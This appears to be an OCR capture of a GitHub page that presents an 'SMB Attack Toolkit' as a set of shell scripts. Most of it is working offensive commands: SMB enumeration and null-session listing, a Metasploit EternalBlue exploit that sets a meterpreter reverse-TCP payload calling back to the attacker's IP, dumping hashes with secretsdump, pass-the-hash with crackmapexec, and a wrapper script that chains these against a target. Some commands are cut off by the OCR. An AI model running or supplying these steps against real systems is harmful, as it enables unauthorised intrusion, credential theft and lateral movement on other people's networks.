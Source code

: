 ~/smb-toolkit/
├── smb_toolkit.sh
├── sid_brute.sh
├── mount_share.sh
├── eternalblue.rc
└── creds.txt
# nmap + NSE Scripts
bash

$ nmap -p 445 --script smb-os-discovery,smb-enum-users,smb-enum-shares,smb-enum-domains <target>
# Wrap in a Bash script:

bash

#!/bin/bash
$ target=$1
$ echo "[*] Running SMB enumeration on $target..."
$ nmap -p 445 --script "smb-os-discovery,smb-enum-users,smb-enum-shares" $target -oN smb_enum_$targ
# enum4linux-ng -A <target> | tee enum4_$target.txt
 # smbclient
bash

$ smbclient -L //<target> -N

$ smbclient //target/share -N

# EternalBlue (CVE-2017-0144) – Only for XP/2003/Win7
bash
$ msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
run
# Exposed SMB shares (manual dump)
Mounting:

bash
mount -t cifs //target/share /mnt/smb -o guest
Automate with:

bash
# !/bin/bash
$ mkdir -p /mnt/smb
mount -t cifs //$1/$2 /mnt/smb -o guest
ls /mnt/smb
# Dumping Password Policy
bash

polenum --target <target>
# Extracting Hashes from SAM (if access gained)
bash

secretsdump.py -just-dc -no-pass <DOMAIN>/<USER>@<IP>
# Pass-the-Hash via crackmapexec
bash

crackmapexec smb <target> -u Administrator -H <NTLM_HASH>

# Toolkit Automation Wrapper
You can glue all this together in a main script like smb_toolkit.sh:

bash

#!/bin/bash

target=$1
lhost=$2
echo "[*] Starting SMB Attack Toolkit against $target"

# Enumeration
nmap -p 445 --script smb-os-discovery,smb-enum-users,smb-enum-shares $target -oN enum_nmap_$target.txt
enum4linux-ng -A $target | tee enum4_$target.txt

# Test for Null session share mount
smbclient -L //$target -N | tee smbclient_$target.txt

# Optional: EternalBlue (MS17-010)
echo "[*] Launching MS17-010 check..."
msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS $target; run; exit"

echo "[*] Finished."